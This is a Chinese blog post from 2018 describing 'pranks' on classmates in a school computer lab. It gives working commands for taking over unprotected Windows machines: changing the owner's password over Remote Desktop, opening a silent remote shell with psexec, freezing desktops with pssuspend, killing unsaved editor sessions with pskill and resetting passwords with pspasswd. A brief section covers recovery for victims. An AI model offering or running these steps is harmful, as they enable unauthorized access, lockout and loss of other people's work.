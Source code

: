 ```yaml
---
author: Duanyll
tags: ["搞事情"]
date: 2018-10-24
title: 论给电脑设密码的重要性——机房惨案的新境界
---
```


昨天颓了半个晚自习研究机房惨案黑科技，感受到了机房电脑不设密码又不开防火墙还不开UAC的巨大风险……

> # **在机房实际运用以下内容可能导致您被教练锤，被同学揍或者是更加严重的后果！**

<!-- more -->

以下内容的前提是对方没设密码

## net user 改密码制造对方断不掉的远程桌面连接

基础：`net user admin fuck`把admin的密码设为`fuck`

1. 把`net user admin fuck`复制到剪贴板里
2. 用远程桌面连你要机惨的人
3. 迅速按下`Win+r`,`Ctrl+v`,`Enter`
4. 然后他除了重启就断不掉链接了，他的电脑上会提示“用户名或密码错误”，但是连密码输入框都不显示，趁机让他在洛谷上AKIOI吧

## psexec 静默打开cmd

1. 去搜索下载一个psexec（SysinternalsSuite里面有）
2. cmd运行`psexec \\他的IP -u admin -s cmd`
3. 提示输入密码，直接回车，如果直接进入他的cmd你就中奖了
4. 你就可以在cmd里面改他的密码，删他的程序，给他的iostream加点料了

## 如果你被搞了

1. 远程桌面型：告诉教练或者揍他
2. psexec型（很难察觉）：迅速`net user admin ""`清除密码，注销重登
3. 没有还原卡：重启按F8，选带命令提示符的安全模式，用上面指令清密码，重启

## 再补充几条

```sh
pssuspend \\stu5-xxx -u admin explorer.exe #卡住他的桌面（可以换成别的程序）
pssuspend \\stu5-xxx -u admin explorer.exe -r #恢复他的桌面
pskill \\stu5-xxx -u admin devcpp.exe #强杀devcpp（不会保存代码）
pspasswd \\stu5-xxx -u admin admin fuck #一键改他的密码
notmyfaultc crash 0x01 #瞬间蓝屏（自己的电脑）
```

pssuspend配合while(true)与sleep效果奇佳。
